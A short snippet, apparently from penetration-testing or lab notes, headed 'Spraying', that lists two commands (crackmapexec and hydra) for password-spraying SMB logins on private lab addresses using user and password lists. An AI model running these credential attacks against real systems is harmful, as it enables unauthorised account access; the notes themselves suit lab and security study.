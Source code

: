 # Spraying

```
crackmapexec smb 10.10.10.172 -u users.lst -p passwd.lst
hydra -L users.lst -P passwd.lst 10.10.10.193 smb
```

